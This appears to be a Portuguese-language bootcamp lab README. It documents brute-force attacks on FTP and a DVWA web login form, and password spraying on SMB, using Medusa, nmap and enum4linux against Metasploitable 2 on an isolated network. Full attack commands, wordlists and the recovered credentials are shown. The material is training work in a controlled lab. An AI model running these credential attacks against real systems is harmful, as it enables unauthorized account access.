









# 🔐 Segurança Ofensiva em Ambiente Controlado
### Kali Linux + Medusa | Metasploitable 2 + DVWA

Bootcamp Cybersegurança Riachuelo (DIO)

> ⚠️ **Aviso Legal:** Todos os testes foram realizados exclusivamente em ambiente virtual isolado (VMs em rede host-only). A reprodução destas técnicas em sistemas sem autorização expressa é crime pela Lei 12.737/2012 e pelo art. 154-A do Código Penal Brasileiro.

---

## 📋 Sobre o Projeto

Projeto prático do bootcamp da DIO para estudo de ataques de força bruta em ambiente controlado, utilizando Kali Linux e a ferramenta Medusa em conjunto com ambientes intencionalmente vulneráveis (Metasploitable 2 e DVWA).

### Objetivos
- Simular ataques de força bruta no serviço FTP
- Automatizar tentativas de login em formulário web (DVWA)
- Executar password spraying no SMB com enumeração prévia de usuários
- Documentar comandos e resultados

---

## 🖥️ Ambiente

| VM | Sistema | IP | Papel |
|---|---|---|---|
| VM 1 — Atacante | Kali Linux | 192.168.56.102 | Executa o Medusa |
| VM 2 — Alvo | Metasploitable 2 | 192.168.56.101 | Serviços vulneráveis |

- **Hypervisor:** VirtualBox
- **Rede:** Host-Only Adapter (vboxnet0) — sem acesso à internet



---

## 🛠️ Ferramentas Utilizadas

- **Medusa v2.3** — ferramenta de força bruta paralela e modular
- **Nmap** — reconhecimento e identificação de serviços
- **enum4linux** — enumeração de usuários via SMB
- **smbclient** — validação de acesso SMB
- **DVWA** (Damn Vulnerable Web Application) — alvo para testes web

---

## 📁 Estrutura do Repositório

├── README.md
├── wordlists/
│   ├── users.txt
│   └── passwords.txt
└── images/

---

## 🔑 Wordlists

**Usuários** (`wordlists/users.txt`):

root, admin, msfadmin, user, postgres, service, backup, ftp

**Senhas** (`wordlists/passwords.txt`):

password, 123456, msfadmin, root, toor, admin, 12345, pass, letmein, abc123

---

## 🎯 Cenário 1 — Força Bruta no FTP

### Reconhecimento
```bash
nmap -sV -p 21 192.168.56.101
```
**Resultado:** `vsftpd 2.3.4` rodando na porta 21.



### Ataque
```bash
medusa \
  -h 192.168.56.101 \
  -U wordlists/users.txt \
  -P wordlists/passwords.txt \
  -M ftp \
  -t 4 \
  -v 6 \
  -O resultados/ftp_resultado.txt
```



### Credenciais Encontradas

| Usuário | Senha |
|---|---|
| msfadmin | msfadmin |
| ftp | password |
| ftp | 123456 |

### Validação
```bash
ftp 192.168.56.101
# Name: msfadmin | Password: msfadmin
# 230 Login successful.
```



---

## 🌐 Cenário 2 — Força Bruta em Formulário Web (DVWA)

### Configuração
- URL: `http://192.168.56.101/dvwa/vulnerabilities/brute/`
- Security Level: **Low**
- String de falha: `Username and/or password incorrect.`

### Ataque
```bash
medusa \
  -h 192.168.56.101 \
  -U wordlists/users.txt \
  -P wordlists/passwords.txt \
  -M http \
  -m 'FORM:/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.' \
  -t 2 \
  -v 6
```

### Credencial Encontrada

| Usuário | Senha |
|---|---|
| admin | password |

### Validação

Acesso confirmado no navegador com a mensagem: `Welcome to the password protected area admin`



---

## 🖧 Cenário 3 — Password Spraying no SMB

### Enumeração de Usuários
```bash
enum4linux -U 192.168.56.101
```
**35 usuários enumerados** sem necessidade de credenciais — vulnerabilidade crítica.




### Ataque (Password Spraying)
```bash
medusa \
  -h 192.168.56.101 \
  -U wordlists/smb_users_enum.txt \
  -p msfadmin \
  -M smbnt \
  -t 1 \
  -v 6
```

> No password spraying testamos **uma única senha** contra **vários usuários**, evitando bloqueios por excesso de tentativas em uma única conta.



### Credencial Encontrada

| Usuário | Senha | Nível de Acesso |
|---|---|---|
| msfadmin | msfadmin | ADMIN$ — Access Allowed |

### Validação
```bash
smbclient -L //192.168.56.101 -U msfadmin%msfadmin
```



---

## 📊 Resumo dos Resultados

| Cenário | Protocolo | Porta | Credencial | Resultado |
|---|---|---|---|---|
| Força Bruta FTP | FTP | 21 | msfadmin:msfadmin | ✅ Sucesso |
| Força Bruta Web | HTTP | 80 | admin:password | ✅ Sucesso |
| Password Spraying | SMB | 445 | msfadmin:msfadmin | ✅ Sucesso |

---

## 📚 Referências

- [Medusa - Foofus Networks](http://www.foofus.net/?page_id=51)
- [Metasploitable 2 - Rapid7](https://docs.rapid7.com/metasploit/metasploitable-2/)
- [DVWA - Damn Vulnerable Web Application](https://dvwa.co.uk/)
- [OWASP - Testing for Brute Force](https://owasp.org/www-project-web-security-testing-guide/)
- [Lei 12.737/2012 - Lei Carolina Dieckmann](https://www.planalto.gov.br/ccivil_03/_ato2011-2014/2012/lei/l12737.htm)

---

## 👤 Autor

**M01KV**  
Projeto desenvolvido para o Bootcamp DIO  
[](https://github.com/M01KV)
